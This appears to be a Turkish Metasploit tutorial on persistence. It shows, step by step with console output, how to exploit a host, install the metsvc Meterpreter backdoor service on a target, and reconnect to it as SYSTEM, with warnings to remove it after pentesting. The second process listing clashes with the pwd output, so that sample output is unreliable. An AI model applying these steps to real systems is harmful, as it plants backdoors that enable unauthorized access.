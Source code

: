 ```yaml
---
draft: false

title:  'MSF Meterpreter Backdoor'
date: '2017-06-15T13:56:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da\_metsvc\_servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz.\_metsvc\_hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz." 
 
url:  /tr/msf-meterpreter-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Meterpreter metsvc



Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da `metsvc` servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz. <a href="http://www.phreedom.org/software/metsvc/">metsvc</a> hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz.



metsvc hakkında bilmeniz gereken önemli bir noktayı vurgulayalım. **Bu servisi yerleştirdiğiniz bilgisayarın ilgili portunu bulan herkes bu arka kapıyı kullanabilir.** Pentest işlemleri esnasında kullandıktan sonra iptal etmelisiniz yoksa sistemi, art niyetli kişilere açık duruma getirmiş olursunuz. Bu da sistem sahiplerinin hiç hoşuna gitmeyebilir.



Öncelikle sistemde, bulduğunuz bir açıklıkla ilgili modülü kullanarak meterpreter oturumu açalım.


```bash
msf exploit**(**3proxy**)** **&gt;** exploit

**[*********]** Started reverse handler
**[*********]** Trying target Windows XP SP2 - English...
**[*********]** Sending stage **(**719360 bytes**)**
**[*********]** Meterpreter session 1 opened **(**192.168.1.101:4444 -&gt; 192.168.1.104:1983**)**
```



`ps` komutuyla `Explorer.exe` programının PID numarasını bulalım ve `migrate` komutuyla bu PID numaralı programa geçiş yapalım.


```bash
meterpreter **&gt;** ps

Process list
**============**

    PID   Name                 Path
    ---   ----                 ----
    132   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    176   svchost.exe          C:\WINDOWS\system32\svchost.exe
    440   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    632   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    796   smss.exe             \SystemRoot\System32\smss.exe
    836   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    844   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    884   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    908   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    952   services.exe         C:\WINDOWS\system32\services.exe
    964   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1120  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1136  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1236  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1560  alg.exe              C:\WINDOWS\System32\alg.exe
    1568  WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    1596  jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    1656  msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    1748  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1928  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2028  snmp.exe             C:\WINDOWS\System32\snmp.exe
    2840  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    3000  mmc.exe              C:\WINDOWS\system32\mmc.exe

meterpreter **&gt;** migrate 632
**[*********]** Migrating to 632...
**[*********]** Migration completed successfully.
```



`metsvc` modülünü kullanmadan önce yardımı görüntüleyelim ve bize hangi olanakları sağladığını görelim.


```bash
meterpreter **&gt;** run metsvc -h
**[*********]**
OPTIONS:

    -A        Automatically start a matching multi/handler to connect to the service
    -h        This help menu
    -r        Uninstall an existing Meterpreter service **(**files must be deleted manually**)**

meterpreter **&gt;**
```



`metsvc`, normalde bize geri bağlantı da sağlayan bir programdır ancak biz zaten Meterpreter oturumu açtığımız için geri bağlantıya şimdilik ihtiyacımız yok. Sadece programı çalıştıralım.


```bash
meterpreter **&gt;** run metsvc
**[*********]** Creating a meterpreter service on port 31337
**[*********]** Creating a temporary installation directory C:\DOCUME~1\victim\LOCALS~1\Temp\JplTpVnksh...
**[*********]**  **&gt;&gt;** Uploading metsrv.dll...
**[*********]**  **&gt;&gt;** Uploading metsvc-server.exe...
**[*********]**  **&gt;&gt;** Uploading metsvc.exe...
**[*********]** Starting the service...
**[*********]**      ***** Installing service metsvc
 ***** Starting service
Service metsvc successfully installed.

meterpreter **&gt;**
```



`metsvc` başladı ve artık bağlanmak için bekliyor. Şimdi bu servisle nasıl haberleşeceğimizi görelim.



Hedef sistemde dinleme durumundaki `metsvc` ile haberleşmek için `windows/metsvc_bind_tcp` payload modülünü kullanacağız. Modülü, aşağıdaki örnekte olduğu gibi aktif hale getirelim ve gerekli PORT ayarlarını yapalım.


```bash
msf **&gt;** use exploit/multi/handler
msf exploit**(**handler**)** **&gt;** set PAYLOAD windows/metsvc_bind_tcp
PAYLOAD **=&gt;** windows/metsvc_bind_tcp
msf exploit**(**handler**)** **&gt;** set LPORT 31337
LPORT **=&gt;** 31337
msf exploit**(**handler**)** **&gt;** set RHOST 192.168.1.104
RHOST **=&gt;** 192.168.1.104
msf exploit**(**handler**)** **&gt;** show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options **(**windows/metsvc_bind_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LPORT     31337            yes       The local port
   RHOST     192.168.1.104    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit**(**handler**)** **&gt;** exploit

**[*********]** Starting the payload handler...
**[*********]** Started bind handler
**[*********]** Meterpreter session 2 opened **(**192.168.1.101:60840 -&gt; 192.168.1.104:31337**)**
```



Gördüğünüz gibi `session 2` otomatik olarak açıldı. Şimdi, `metsvc` servisinin hedef bilgisayarda hangi PID numarasıyla çalıştığına bakalım.


```bash
meterpreter **&gt;** ps

Process list
**============**

   PID   Name               Path                                                  
   ---   ----               ----                                                  
   140   smss.exe           \SystemRoot\System32\smss.exe                         
   168   csrss.exe          \??\C:\WINNT\system32\csrss.exe                       
   188   winlogon.exe       \??\C:WINNT\system32\winlogon.exe                    
   216   services.exe       C:\WINNT\system32\services.exe                        
   228   lsass.exe          C:\WINNT\system32\lsass.exe                           
   380   svchost.exe        C:\WINNT\system32\svchost.exe                         
   408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                         
   444   svchost.exe        C:\WINNT\System32\svchost.exe                         
   480   regsvc.exe         C:\WINNT\system32\regsvc.exe                          
   500   MSTask.exe         C:\WINNT\system32\MSTask.exe                          
   528   VMwareService.exe  C:\Program Files\VMware\VMware Tools\VMwareService.exe
   564   metsvc.exe         c:\WINNT\my\metsvc.exe                                
   588   WinMgmt.exe        C:\WINNT\System32\WBEM\WinMgmt.exe                    
   676   cmd.exe            C:\WINNT\System32\cmd.exe                             
   724   cmd.exe            C:\WINNT\System32\cmd.exe                             
   764   mmc.exe            C:\WINNT\system32\mmc.exe                             
   816   metsvc-server.exe  c:\WINNT\my\metsvc-server.exe                         
   888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe   
   896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe   
   940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe          
   972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe
   1000  Explorer.exe       C:\WINNT\Explorer.exe                                 
   1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe

meterpreter **&gt;** pwd
C:\WINDOWS\system32
meterpreter **&gt;** getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter **&gt;**
```



Çıktıdan görülebileceği gibi, `metsvc` programı, 564 PID numarasıyla çalışmaktadır. Artık istediğiniz zaman, hedef bilgisayarda dinleme yapan programa, `windows/metsvc_bind_tcp` payload modülünü kullanarak bağlanabiliriz.



Tekrar hatırlatmak gerekirse, güvenlik testi işlemleriniz bittiğinde `metsvc` programını sistemden silmelisiniz.

